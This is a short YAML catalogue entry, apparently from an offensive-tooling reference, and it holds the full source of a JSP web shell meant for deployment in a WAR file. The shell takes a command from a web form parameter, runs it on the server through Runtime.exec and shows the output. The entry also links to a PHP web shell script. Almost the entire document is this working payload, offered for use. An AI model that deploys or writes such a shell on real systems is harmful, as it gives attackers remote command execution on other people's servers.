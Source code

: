 ```yaml
---
functions:
  shell:
    - description: war web shell (in jsp format)
      code: |
        <FORM METHOD=GET ACTION='shell.jsp'>
		<INPUT id='cmd' name='cmd' type=text>
		<INPUT type=submit value='Run'>
		</FORM>
		<script>
			var input = document.getElementById("cmd");
			input.focus();
			input.select();
		</script>

		<%@ page import="java.io.*" %>
		<%
		   String cmd = request.getParameter("cmd");
		   String output = "";
		   if(cmd != null) {
		      String s = null;
		      try {
		         Process p = Runtime.getRuntime().exec(cmd,null,null);
		         BufferedReader sI = new BufferedReader(new
		InputStreamReader(p.getInputStream()));
		         while((s = sI.readLine()) != null) { output += s+"</br>"; }
		      }  catch(IOException e) {   e.printStackTrace();   }
		   }
		%>
		<pre><%=output %></pre>
resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/php_web_shell.php
---
```

